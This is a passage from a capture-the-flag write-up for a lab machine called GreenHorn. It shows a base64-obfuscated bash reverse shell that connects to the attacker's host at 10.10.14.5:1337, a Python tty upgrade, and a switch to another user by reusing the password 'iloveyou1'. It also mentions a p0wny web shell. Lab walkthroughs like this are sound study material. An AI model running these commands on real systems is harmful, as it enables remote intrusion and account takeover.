 ![img](/assets/img/GreenHorn/11.webp)

Okay, so p0wny-shell turned out to be a bit unstable, so I decided to set up a good old reverse shell. I used a base64 encoded command as following:

```bash
echo "L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzEzMzcgMD4mMQ==" | base64 -d|bash
```

## Initial Access

### Shell as www-data

I finally had a shell! But it was a basic, non-interactive shell. So, I used Python to upgrade it, with:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

Now, I had a proper interactive shell. But no user.txt here, darn!

### Shell as junior

So, I decided to try it out for other users with same password `iloveyou1`. It worked! I was now `junior` and I grabbed the user flag

```bash
www-data@greenhorn:/home$ su junior
Password: 
junior@greenhorn:/home$ whoami
junior
junior@greenhorn:/home$ 
```
